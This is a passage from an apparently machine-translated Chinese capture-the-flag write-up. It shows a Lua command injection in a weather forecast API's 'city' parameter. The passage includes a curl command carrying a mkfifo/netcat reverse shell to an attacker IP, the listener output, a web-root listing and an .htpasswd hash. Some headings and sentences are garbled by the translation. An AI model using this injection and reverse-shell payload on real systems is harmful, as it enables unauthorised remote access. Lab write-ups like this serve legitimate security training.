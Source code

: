 
先进先出外壳确实有效：

    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s
    

它连接到一个监听：`nc`

    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 65453
    sh: can't access tty; job control turned off
    $ id
    uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
    

## 谢尔 饰 迈克尔斯

### 列举

#### 蹼

在 Web 根目录中有三个文件：

    $ pwd  
    /var/www
    $ ls -la
    total 20
    drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
    drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
    -rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
    -rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
    -rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
    

`index.html`有一个页面，我无法在没有身份验证的情况下访问：

    <!doctype html>
    <html>
      <head>
        <title>Index</title>
      </head>
      <body>
        <p><h3>Weather Forecast API</h3></p>
        <p><h4>List available cities:</h4></p>
        <a href="/weather/forecast?city=list">/weather/forecast?city=list</a>
        <p><h4>Five day forecast (London)</h4></p>
        <a href="/weather/forecast?city=London">/weather/forecast?city=London</a>
        <hr>
      </body>
    </html>
    

`robots.txt`与 中所述的 相同。 很有趣。这是定义基本身份验证要求的文件：`nmap``.htpasswd`

    webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
    